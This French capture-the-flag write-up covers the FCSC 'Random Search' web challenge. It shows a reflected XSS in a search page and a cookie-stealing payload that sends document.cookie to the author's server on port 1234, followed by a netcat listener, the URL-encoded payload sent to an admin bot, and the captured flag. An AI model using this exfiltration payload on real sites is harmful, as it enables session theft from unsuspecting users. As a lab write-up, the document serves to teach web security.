 # Random Search


![intro](assets/randomsearch.png)

# Petit tour

Sur ce challenge, nous nous connectons sur un serveur avec una application de recherche de sites.

![acceuil](assets/acceuil.png)

Il y a un champ de recherche et une page de contact.

![search](assets/search.png)

![contact1](assets/contact1.png)

# Recherche de la faille

Comme l'énoncé l'explique, il faut ici récupérer le contenu du cookie de l'administrateur.
Pour ce faire, il faut exploiter une faille [XSS](https://fr.wikipedia.org/wiki/Cross-site_scripting).

Nous avons 2 champs de formulaire ici. Un champ de recherche et un champs de saisie d'[URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator) (pour remonter un problème sur les résultats de recherches).

On peut supposer ici que si l'on rentre une [URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator), l'administrateur du site va recevoir une notification pour aller voir quelle est la page qui pose problème.

Pour ce faire, on regarde d'abord à quoi ressemble le code source de la page des résultats de recherches :

![search-source](assets/source-search.png)

On voit ici la valeur de recherche qui apparait. On va tester si on peut y injecter du code [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language) (et surtout si on peut executer du [Javascript](https://fr.wikipedia.org/wiki/JavaScript)).

Essayons d'injecter le code suivant :

```html
test</h1><script>alert("prout")</script><h1> plouf
```

Résultat :

![xss-test](assets/xss-test.png)

BINGO !

L'injection a marché ici :

![xss-test-source](assets/xss-test-source.png)

On voit ici qu'on a réussi a injecter sur code [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language) et [Javascript](https://fr.wikipedia.org/wiki/JavaScript) dans la page, et que donc les caractères ne sont pas [échappés](https://fr.wikipedia.org/wiki/Caract%C3%A8re_d%27%C3%A9chappement).


# Exploit

Nous savons donc que :
- Une faille [XSS](https://fr.wikipedia.org/wiki/Cross-site_scripting) est présente.
- Que l'on peut injecter du [Javascript](https://fr.wikipedia.org/wiki/JavaScript).

On peut supposer que :
- Le formulaire de contact permet d'envoyer à l'administrateur un lien et donc, de le stocker quelque part (en base de données par exemple).
- L'administrateur passe à un moment donné sur cette page pour vérifier le problème.

Faisons un test d'injection qui pourrait faire une requete sur un serveur que nous contrôlons pour voler le cookie.

[Exploit](https://fr.wikipedia.org/wiki/Exploit_(informatique)) :

```html
https://www.ecuri.es/truc</h1><script>document.write('<img src="http://ecuri.es:1234?cookie=' + document.cookie + '" />')</script><h1> plouf
```

Dans le champ de recherche, on met une [URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator) valide, puis on ferme la balise [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language) `</h1>`.

On injecte du [Javascript](https://fr.wikipedia.org/wiki/JavaScript) qui dit d'ajouter une image qui se trouve sur l'[URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator) `http://ecuri.es:1234?cookie=` auquel on concatène la valeur des cookies du navigateur que l'on récupère via `document.cookie`. Puis, on ferme la balise de script et on rouvre une balise `<h1>` avec du contenu divers pour ne pas casser le [DOM](https://fr.wikipedia.org/wiki/Document_Object_Model) [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language).

Sur mon serveur (ecuri.es), j'ai ouvert le port 1234 avec [netcat](https://fr.wikipedia.org/wiki/Netcat) pour voir la requête [HTTP](https://fr.wikipedia.org/wiki/Hypertext_Transfer_Protocol) qui est executée et voir le résultat de notre [Exploit](https://fr.wikipedia.org/wiki/Exploit_(informatique)).

L'exploit executé :

![xss2](assets/xss2.png)

On voit ici que l'on a une image "cassé". Normal vu qu'il essaye de récupérer une image sur http://ecuri.es:1234 qui n'existe pas.

Résultat de [netcat](https://fr.wikipedia.org/wiki/Netcat) :

```shell
root@ecurie:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from xxxxxxxx [xxx.xxx.xxx.x] 34149
GET /?cookie= HTTP/1.1
Host: ecuri.es:1234
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: image/webp,*/*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://challenges2.france-cybersecurity-challenge.fr:5001/
```

On voit ici qu'on récupère bien une requête executée par le navigateur.

On remarque aussi le `GET /?cookie=` que l'on a injecter dans le code [Javascript](https://fr.wikipedia.org/wiki/JavaScript).


Nous allons donc soumettre ce [payload](https://fr.wikipedia.org/wiki/Charge_utile) (encodé en [URL encoding / encodage pourcent](https://fr.wikipedia.org/wiki/Encodage-pourcent) (en français)) sur la page de contact du site en croisant les doigts que l'administrateur clique dessus. (En vrai il n'y a pas un humain qui valide chaque lien qu'on lui envoie. Sinon le pauvre... C'est un bot qui tourne et qui simule un administrateur (Oui, on sait, parfois, automatiser des administrateurs systemes ;)).

```url
http%3A%2F%2Fwww.ecuri.es%2Ftruc%3C%2Fh1%3E%3Cscript%3Edocument.write(%27%3Cimg%20src%3D%22http%3A%2F%2Fecuri.es%3A1234%3Fcookie%3D%27%20%2B%20document.cookie%20%2B%20%27%22%20%2F%3E%27)%3C%2Fscript%3E%3Ch1%3E%20plouf
```

![xss3](assets/xss3.png)

On patiente un petit peu, et tout d'un coup, dans notre shell sur le serveur de tout à l'heure :

```shell
root@ecurie:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from ns3049096.ip-151-80-29.eu [151.80.29.147] 47574
GET /?cookie=admin=FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633} HTTP/1.1
Host: ecuri.es:1234
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://random-search-web:5001/
Connection: keep-alive
```

ET PLOUF ! On récupère le contenu des cookies de l'administrateur qui contient le flag !

```
FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}
```

![cat](assets/lolcat.jpg)
